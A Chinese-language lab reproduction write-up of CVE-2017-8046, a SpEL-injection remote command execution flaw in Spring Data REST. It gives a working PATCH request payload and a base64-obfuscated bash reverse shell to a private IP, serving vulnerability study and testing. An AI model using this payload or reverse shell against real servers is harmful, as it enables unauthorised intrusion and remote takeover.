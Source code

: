 # Spring Data Rest 远程命令执行漏洞CVE-2017-8046

## 漏洞描述

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

参考链接：

- [http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/](http://xxlegend.com/2017/09/29/Spring Data Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/)
- [https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html](https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞(CVE-2017-8046)_分析与复现.html)

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

等待环境启动完成，然后访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

![image-20220301144324049](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011443101.png)

## 漏洞复现

先将命令转为ASCII码表示：

```python
# Payload to ASCII
payload = b'touch /tmp/awesome_poc'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```

执行结果：

```
116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99
```

开始复现，访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}`表示的命令`touch /tmp/awesome_poc`。

![image-20220301145537369](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011455445.png)

进入容器`docker-compose exec spring bash`查看，可见，文件`awesome_poc`被成功创建：

![image-20220301145500645](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011455722.png)

将bytecode改成反弹shell的命令，并进行转换：

```
# 反弹shell命令
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# bytecode
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,78,67,52,120,77,106,103,118,79,84,107,53,79,83,65,119,80,105,89,120,67,103,111,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

发送数据包：

![image-20220301145823746](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011458842.png)

成功接收反弹shell：

![image-20220301145803433](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011458521.png)